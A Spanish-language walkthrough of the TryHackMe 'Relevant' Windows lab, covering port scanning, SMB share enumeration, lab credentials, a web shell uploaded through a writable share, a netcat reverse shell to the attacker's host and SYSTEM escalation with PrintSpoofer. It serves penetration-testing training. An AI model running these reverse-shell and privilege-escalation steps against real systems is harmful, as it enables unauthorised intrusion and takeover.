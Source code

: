 ```yaml
---
layout: post
title:  "Relevant - [THM]"
date:   2021-05-14 7:21:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, windows, Tryhackme, Walkthrough, SeImpersonatePrivilege]
categories: Tryhackme
---
```


{: .message}

Es una maquina windows interesante en la parte inicial y en la escalada que puede presentar un reto.
## Enumeracion
*Puertos:*
```plaintext
80/tcp   --> Microsoft IIS httpd 10.0
135/tcp  --> Microsoft Windows RPC
139/tcp  --> Microsoft Windows netbios-ssn
445/tcp  --> Windows Server 2016 Standard Evaluation 14393 
3389/tcp --> Microsoft Terminal Services
```
### Nmap
*Para escanear todos los puertos rapido:*
```bash
nmap -p- -sT --min-rate 5000  10.10.89.170 -oG Scanport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 20:26 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.97% done; ETC: 20:27 (0:00:40 remaining)
Nmap scan report for 10.10.89.170
Host is up (0.15s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

*Escaneo mas exhaustivo:*

```bash
# Nmap 7.91 scan initiated Thu May 13 20:35:05 2021 as: nmap -sC -sV -p80,135,139,445,3389 -oN Scanport2 10.10.89.170
Nmap scan report for 10.10.89.170
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-13T23:35:20+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-12T23:22:38
|_Not valid after:  2021-11-11T23:22:38
|_ssl-date: 2021-05-13T23:36:01+00:00; -59m59s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 24m00s, deviation: 3h07m50s, median: -59m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-13T16:35:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-13T23:35:21
|_  start_date: 2021-05-13T23:23:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 20:36:01 2021 -- 1 IP address (1 host up) scanned in 56.40 seconds
```

### Masscan

*Aqui hago uso de otra utilidad para confirmar lo que tengo y descartar falsos positivos:*

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.173.246
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-05-14 21:58:30 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 445/tcp on 10.10.173.246                                  
Discovered open port 3389/tcp on 10.10.173.246                                 
Discovered open port 49667/tcp on 10.10.173.246
Discovered open port 49663/tcp on 10.10.173.246
```

### SMB enumeration

Carpeta compatida de interes: *nt4wrksv*

```json
smbmap -H 10.10.89.170 -u benji -p benji                                                 3s
[+] Guest session       IP: 10.10.89.170:445    Name: Relevant                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

### Credentials

Estas fueron obtenidas de la carpeta compartida nt4wrksv

```plaintext
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

## SMB upload cmd.aspx

La idea es que si te metes por la web: http://ip:49663/nt4wrksv/passwords.txt puedes visualizar los archivos que se encuentra en el smb. Entonces teniendo esto claro la idea es subir una cmd.aspx. (Primero probe con la cmd.asp pero esta no me dio resultado y luego pase a la cmd.aspx)

Vemos como se nos muestra una cmd:
http://ip:49663/nt4wrksv/cmd.aspx 

## Shell inicial

Corremos un servidor de smb y luego tiramos de un archivo compartido que es nc.exe y nos lazamos una reverse:

```bash
\\10.9.206.201\share\nc.exe 10.9.206.201 4444 -e cmd.exe
```

```bash
listening on [any] 4444 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.173.246] 49887
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```


## PrivEsc

El primer comando siempre debe ser ```whoami /priv``` para saber los permisos que posee ese usuario:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Aqui resalta el famoso SeImpersonatePrivilege, para la explotacion de dicho privilegio se hace tirando de este [binario](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

Ejecutamos el binario desde el directorio de bob:

```bash
\\10.9.206.201\share\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

MACHINE PWNED!!!!!

